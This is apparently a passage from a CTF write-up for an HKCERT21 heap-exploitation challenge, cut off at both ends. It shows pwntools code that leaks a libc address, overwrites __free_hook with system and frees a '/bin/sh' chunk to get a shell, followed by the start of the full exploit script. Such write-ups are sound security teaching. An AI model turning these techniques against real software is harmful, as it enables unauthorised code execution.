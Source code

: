 ```
p.recv(7)
target = u64(p.recv(6).ljust(8, b'\x00')) + 0x80
info(f"target: {hex(target)}")
for i in range(27):
    create(0x88, b"/bin/sh\x00")
```
### Step 3: Leak libc address
1. edit it point to our controlable place, which is the address to store #5 chunk address
2. edit it point to 0x000055770ddb5020 where stored a address of libc
3. show the #5 chunk to leak the libc address
```python=
target = leak + 0x80
edit(-11, p64(target))
edit(-11, p64(target-0x68))
show(5)
p.recv(8)
#input()
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x3c5620
info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
```

### Step 4: Get shell
Change the place pointed to #5 chunk addrss point to *__free_hook* and edit it with `system` address.
Call `eatCookie()` to free a chunk contains /bin/sh` to get shell

```python=
edit(-11, p64(free_hook))
edit(5, p64(system))
eat()
```

Full exploit script:
```python=
from pwn import *

TARGET = './chall'
HOST = 'chalp.hkcert21.pwnable.hk'
PORT = 38230
context.arch = 'amd64' # i386/amd64
#context.log_level = 'debug'
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    libc = ELF("./libc-2.23.so")
else:
    p = process(TARGET ,env = {"LD_PRELOAD": "./libc-2.23.so"})
    libc = elf.libc
    gdbscript = ''''''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#---

def eat():
    p.sendlineafter(">", '1')
def create(size, data):
    p.sendlineafter(">", '2')
    p.sendlineafter("How long is the message?", str(size))
    p.sendlineafter("Input your message:", data)
def edit(idx, data):
```